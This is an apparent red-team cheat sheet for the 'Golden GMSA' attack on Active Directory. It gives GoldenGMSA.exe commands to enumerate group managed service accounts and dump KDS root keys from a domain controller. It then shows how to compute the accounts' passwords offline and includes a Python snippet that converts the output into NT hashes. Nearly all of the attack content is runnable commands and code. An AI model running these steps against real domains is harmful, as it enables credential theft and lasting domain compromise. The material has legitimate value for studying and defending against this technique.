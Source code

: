 # Golden GMSA

### One notable difference between a Golden Ticket attack and the Golden GMSA attack is that they no way of rotating the KDS root key secret. Therefore, if a KDS root key is compromised, there is no way to protect the gMSAs associated with it.

## WARNING!: You can't "force reset" a gMSA password, because a gMSA's password never changes. The password is derived from the KDS root key and ManagedPasswordIntervalInDays , so every Domain Controller can at any time compute what the password is, what it used to be, and what it will be at any point in the future.

## Tool: GoldenGMSA https://github.com/Semperis/GoldenGMSA

#### 1) Enumerate all gMSAs

    GoldenGMSA.exe gmsainfo

#### 2) Query for a specific gMSA

    GoldenGMSA.exe gmsainfo --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --domain domain.local

#### 3) Dump all KDS Root Keys

    GoldenGMSA.exe kdsinfo

### With the --forest argument specifying the target domain or forest, SYSTEM privileges are required on the corresponding domain or forest Domain Controller. In case a child domain is specified, the parent domain keys will be dumped as well.

    GoldenGMSA.exe kdsinfo --forest child.lab.local

#### 4) Dump a specific KDS Root Key

    GoldenGMSA.exe kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb

#### 5) Compute gMSA password (Can be done offline)

### --sid <gMSA SID>: SID of the gMSA (required)

### --kdskey <Base64-encoded blob>: Base64 encoded KDS Root Key

### --pwdid <Base64-encoded blob>: Base64 of msds-ManagedPasswordID attribute value

    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 # requires

    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey "AQA[...]jG2/M=" --pwdid "AQAAAEtEU[...]gBsAGEAYgBzAAAA"

The output is in Base64 and the password is generally not readable. It is possible to calculate the NT hash from it instead:

    import base64
    import hashlib

    b64 = "<base64_password>"
    print(hashlib.new("md4", base64.b64decode(b64)).hexdigest())

 

